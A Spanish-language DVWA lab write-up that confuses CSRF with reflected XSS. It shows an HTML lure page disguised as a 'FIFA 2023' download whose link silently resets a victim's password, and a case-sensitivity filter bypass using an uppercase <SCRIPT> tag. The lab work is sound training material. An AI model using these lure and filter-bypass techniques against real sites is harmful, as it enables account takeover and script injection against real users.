 # Reflected Cross Site

El cross-site request forgery (CSRF) consiste en realizar tareas dentro de una aplicación por medio de la ejecución de un enlace en el navegador de la víctima. \
Se envía un enlace que se crea a partir de una petición que contiene la acción maliciosa planeada por el atacante. \
El siguiente códio HTML contiene la acción maliciosa que cambiará la contraseña automáticamente a (12345) al pinchar en el enlace.

## Level: Low
```
<!DOCTYPE html>
<html lang="en">
<head>
	<meta charset="UTF-8">
	<meta name="viewport" content="width=dwvice-width, initial-scale=1.0">
	<title>Document</title>
</head>
<body>
	<h3>Click to download FIFA 2023</h3>
	<a href="http://localhost/DVWA/vulnerabilities/csrf/?password_new=12345&password_conf=12345&Change=Change#">FIFA 2023</a>
</body>
</html>
```

Una vez el usuario pincha en el enlace, la contraseña se cambia a la que se ha asignado en el código malicioso.

## Level: Medium

En este nivel DVWA introduce un control de entradas muy básico, no se puede utilizar <script> pero si que se puede utilizar <SCRIPT>. \
Esto es debido a que la función utilizada **str_replace()** para el filtrado es sensible a las mayúsculas/minúsculas, se introduce en el dialogo:
```
<SCRIPT>alert("Te pillé")</SCRIPT>
```


